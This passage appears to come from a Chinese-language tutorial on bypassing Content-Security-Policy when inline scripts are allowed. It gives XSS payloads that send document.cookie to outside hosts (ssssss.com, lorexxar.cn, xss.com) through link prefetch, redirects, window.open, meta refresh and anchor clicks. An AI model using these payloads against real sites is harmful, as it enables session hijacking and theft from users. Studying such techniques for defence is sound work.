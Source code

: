 这样你就可以构造任意js，即使你限制了callback只获取`\w+`的数据，部分js仍然可以执行，配合一些特殊的攻击手段和场景，仍然有危害发生。

唯一的办法是返回类型设置为json格式。

## 7

```
header("Content-Security-Policy: default-src 'self'; script-src 'self' 'unsafe-inline' ");
```

比起刚才的CSP规则来说，这才是最最普通的CSP规则。

unsafe-inline是处理内联脚本的策略，当CSP中制定script-src允许内联脚本的时候，页面中直接添加的脚本就可以被执行了。

```
<script>
js code; //在unsafe-inline时可以执行
</script>
```

既然我们可以任意执行js了，剩下的问题就是怎么绕过对可信域的限制。

### 1 js生成link prefetch

第一种办法是通过js来生成link prefetch
```
var n0t = document.createElement("link");
n0t.setAttribute("rel", "prefetch");
n0t.setAttribute("href", "//ssssss.com/?" + document.cookie);
document.head.appendChild(n0t);
```

这种办法只有chrome可以用，但是意外的好用。

### 2 跳转 跳转 跳转

在浏览器的机制上， 跳转本身就是跨域行为

```
<script>location.href=http://lorexxar.cn?a+document.cookie</script>

<script>windows.open(http://lorexxar.cn?a=+document.cooke)</script>

<meta http-equiv="refresh" content="5;http://lorexxar.cn?c=[cookie]">
```

通过跨域请求，我们可以把我们想要的各种信息传出

### 3 跨域请求

在浏览器中，有很多种请求本身就是跨域请求，其中标志就是href。

```
var a=document.createElement("a");
a.href='http://xss.com/?cookie='+escape(document.cookie);
a.click();
```


  [1]: http://static.zybuluo.com/LoRexxar/xht98xm2jwyjckb5bfdjm5xq/image.png
  [2]: http://static.zybuluo.com/LoRexxar/xo1yr98en6xbcsxhdi3598mz/image.png
  [3]: http://static.zybuluo.com/LoRexxar/qeh93twveyzmu5ke9nvkftj6/image.png
  [4]: http://static.zybuluo.com/LoRexxar/dqprvm9xhl2e0zl1w4ssjjai/image.png
  [5]: http://static.zybuluo.com/LoRexxar/2btf59qi5yvbhrgo80zda064/image.png